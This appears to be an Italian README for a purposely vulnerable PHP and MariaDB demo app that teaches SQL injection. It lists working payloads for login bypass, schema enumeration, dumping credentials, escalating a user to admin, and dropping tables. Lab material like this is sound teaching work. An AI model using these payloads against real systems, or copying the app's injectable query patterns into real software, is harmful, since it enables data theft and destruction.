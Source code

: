 # SQL Injection Demo App (PHP + MariaDB + Docker)

Questa applicazione è stata creata per scopi didattici e dimostra le vulnerabilità SQL Injection più comuni in un contesto web.

---

## Funzionalità

- Login vulnerabile (tautologia)
- Dashboard con elenco parziale dei dati degli utenti
- Form di ricerca email vulnerabile a:
  - UNION SELECT
  - Esfiltrazione dati da `information_schema`
  - Piggybacking (`DROP`, `UPDATE`)
- Style CSS semplice incluso

---

## Tecnologie

- PHP (senza framework)
- MariaDB 10.5
- Docker & Docker Compose

---

## Requisiti

Per eseguire correttamente il progetto sono necessari i seguenti strumenti:

- Docker Desktop installato e funzionante sul proprio sistema (macOS, Windows o Linux). Docker viene utilizzato per creare ed eseguire i container dell’applicazione e del database.
- Docker Compose deve essere disponibile nel sistema. Nella maggior parte dei casi è incluso direttamente in Docker Desktop, ma in ambienti Linux potrebbe essere necessario installarlo separatamente.
-	Database MariaDB o MySQL: il progetto utilizza MariaDB (via container Docker), ma è compatibile anche con MySQL. Il database viene inizializzato automaticamente tramite uno script SQL (init.sql) incluso nel progetto, quindi non è necessaria alcuna configurazione manuale.

---

## Avvio dell'applicazione

1. Clona il progetto

```bash
git clone https://github.com/BlackCodeReaper/sqli-project.git
cd sqli-project
```

2. Avvia i container

```bash
docker-compose up --build
```

L'app sarà disponibile su `http://localhost:8080/login.html`

---

## Login di esempio

Tautologia:
```
Username: ' OR 1=1 #
Password: qualsiasi
```

Credenziali reali:
```
Username: admin
Password: admin123
```

---

## Esecuzione di attacchi SQLi

Tautologia:
```
' OR 1=1 #
```

Scoprire nome database:
```
' UNION SELECT 'Nome database:', DATABASE(), '', '', '' #
```

Elencare tutti gli schemi:
```
' UNION SELECT schema_name, '', '', '', '' FROM information_schema.schemata #
```

Elencare tabelle:
```
' UNION SELECT 'Nome tabella:', table_name, '', '', '' FROM information_schema.tables WHERE table_schema='sqli_project' #
```

Elencare colonne:
```
' UNION SELECT 'Nome colonna:', column_name, '', '', '' FROM information_schema.columns WHERE table_name='utenti' AND table_schema='sqli_project' #
```

Leggere credenziali:
```
'UNION SELECT 'ID', 'username', 'password', 'email', 'telefono' UNION SELECT id, username, password, email, telefono FROM utenti #
```

Aggiornare un utente:
```
' ; UPDATE utenti SET ruolo = 'admin' WHERE username = 'user1'; --
```

Cancellare la tabella:
```
' ; DROP TABLE utenti; --
```

---

## Ripristino del database

Se la tabella o il database vengono eliminati durante i test, puoi ricostruire tutto con:

```bash
docker-compose down -v
docker-compose up --build
```

---

## Crediti

Progetto sviluppato per scopi didattici. **Non usare in ambienti di produzione.**